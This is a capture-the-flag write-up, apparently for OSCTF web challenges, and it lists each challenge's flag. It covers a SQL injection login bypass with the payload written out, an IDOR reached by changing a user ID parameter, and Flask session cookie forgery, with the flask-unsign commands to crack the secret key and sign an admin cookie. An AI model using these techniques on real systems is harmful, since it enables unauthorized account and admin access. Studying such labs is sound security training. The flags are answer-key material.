 # Introspection
## Description
> Welcome to the Secret Agents Portal. Find the flag hidden in the secrets of the Universe!!!

## Solution
The flag was present inside [script.js](http://34.16.207.52:5134/script.js)

## Flag
```
OSCTF{Cr4zY_In5P3c71On}
```

# Styled Query Listing
## Description
> pfft.. Listen, I’ve gained access to this login portal but I’m not able to log in. The admins are surely hiding something from the public, but… I don’t understand what. Here take the link and be quiet, don’t share it with anyone
## Solution

- There was sqli in the username and password fields
- Username = admin and Password = `a' or '1' = '1'; -- - ` gives the flag

## Flag

```
OSCTF{D1r3ct0RY_BrU7t1nG_4nD_SQL}
```
# Indoor Webapp
## Description
> The production of this application has been completely indoor so that no corona virus spreads, but that’s an old talk right?
## Solution

- On clicking the view profile button we are shown the [profile](http://34.16.207.52:2546/profile?user_id=1) of user_id=1
- On changing the user_id parameter to 2 we get the flag.

## Flag

```
OSCTF{1nd00r_M4dE_n0_5enS3}
```
# Action Notes
## Solution

Look at the cookies for one labeled "session." Initially, it seems to be a JWT, but decoding it directly results in an error.
```
session:eyJ1c2VybmFtZSI6InRlc3QyMTMifQ.ZpKirg.NeEcUdx51_beLfIjFVIdC60Jqj8
```
Use the flask-unsign tool to extract the secret key from the cookie. Run the command:

```bash
flask-unsign --unsign --cookie "eyJ1c2VybmFtZSI6InRlc3QyMTMifQ.ZpKirg.NeEcUdx51_beLfIjFVIdC60Jqj8"
```
This reveals the secret key, ```supersecretkey```.

With the secret key, create your own signed cookie. Use the ```flask-unsign tool``` to sign a new cookie with the desired payload. Replace the old cookie with the newly signed cookie and visit the /admin page. This allows you to access the admin section and retrieve the flag.
```bash
flask-unsign --sign --cookie "{'username': 'admin'}" --secret 'supersecretkey'
```
Flag
```
OSCTF{Av0id_S1mpl3_P4ssw0rDs}
```
